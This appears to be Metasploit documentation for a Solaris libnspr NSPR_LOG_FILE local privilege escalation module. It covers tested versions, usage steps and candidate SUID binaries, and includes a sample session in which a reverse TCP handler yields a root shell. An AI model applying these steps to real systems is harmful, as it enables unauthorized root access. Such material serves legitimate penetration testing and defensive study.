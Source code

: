 ## Description

  This module exploits an arbitrary file write vulnerability in the
  Netscape Portable Runtime library (libnspr) on unpatched Solaris systems
  prior to Solaris 10u3 which allows users to gain root privileges.

  libnspr versions prior to 4.6.3 allow users to specify a log file with
  the `NSPR_LOG_FILE` environment variable. The log file is created with
  the privileges of the running process, resulting in privilege escalation
  when used in combination with a SUID executable.

  This module writes a shared object to the trusted library directory
  `/usr/lib/secure` and runs the specified SUID binary with the shared
  object loaded using the `LD_LIBRARY_PATH` environment variable.


## Vulnerable Application

  This module has been tested successfully with [libnspr](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/NSPR)
  version 4.5.1 on Solaris 10u1 (01/06) (x86) and Solaris 10u2 (06/06) (x86).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/libnspr_nspr_log_file_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **SUID_PATH**

  Path to suid executable (must be linked to a vulnerable version of `libnspr4.so`)
  (default: `/usr/bin/cancel`)

  Some useful example SUID executables:

  * /usr/bin/cancel
  * /usr/bin/chkey
  * /usr/bin/lp
  * /usr/bin/lpset
  * /usr/bin/lpstat
  * /usr/lib/lp/bin/netpr
  * /usr/sbin/lpmove


## Scenarios

  ```
  msf5 > use exploit/solaris/local/libnspr_nspr_log_file_priv_esc 
  msf5 exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > set session 1
  session => 1
  msf5 exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > set lhost 172.16.191.196
  lhost => 172.16.191.196
  msf5 exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.196:4444 
  [+] Created file /usr/lib/secure/libldap.so.5
  [*] Writing '/tmp/.8ENHI80b/.z6luu3Y1JC.c' (166 bytes) ...
  [*] Writing '/tmp/.8ENHI80b/.1hC6r9F' (175 bytes) ...
  [*] Executing payload...
  [+] Deleted /usr/lib/secure/libldap.so.5
  [+] Deleted /tmp/.8ENHI80b/.z6luu3Y1JC.c
  [+] Deleted /tmp/.8ENHI80b/.z6luu3Y1JC
  [!] Tried to delete /usr/lib/secure/libldap.so.5, unknown result
  [+] Deleted /tmp/.8ENHI80b/.1hC6r9F
  [+] Deleted /tmp/.8ENHI80b

  id
  uid=0(root) gid=0(root)
  uname -a
  SunOS unknown 5.10 Generic_118844-26 i86pc i386 i86pc
  ```

